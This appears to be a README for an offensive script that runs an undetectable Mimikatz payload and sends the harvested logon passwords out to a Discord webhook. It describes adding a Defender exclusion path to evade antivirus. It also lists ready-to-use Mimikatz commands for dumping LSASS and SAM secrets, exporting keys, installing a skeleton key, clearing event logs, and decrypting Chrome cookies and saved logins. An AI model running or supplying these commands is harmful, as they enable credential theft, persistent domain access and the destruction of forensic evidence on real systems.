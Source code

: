 # usage
Place discord webhook into the correct variable in the Mimikatz.txt file, and that's it!

# To know 
this script sets an exclusion path on C:\temp, then removes such and the execution policy back to normal when completed.

# Exfiltration
Mimikatz is a very useful utility for pentesters, so change the commands to ones needs. 
- for now sekurlsa::logonpasswords is exfiltrated and saved to the logs, add more if needed 

# examples for additions
Extract from lsass (service)
- lsadump::lsa /inject

Extract from SAM
- lsadump::sam

print list of provider keys
- crypto::keys /export

skeleton key
- misc::skeleton

event logs
- event::clear
- event::clear /log:system

Chrome Cookies
- dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect

Chrome Logins
- dpapi::chrome /in:"C:\Users\%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data" 

# Mimikatz payload credits
https://github.com/HernanRodriguez1/MimikatzFUD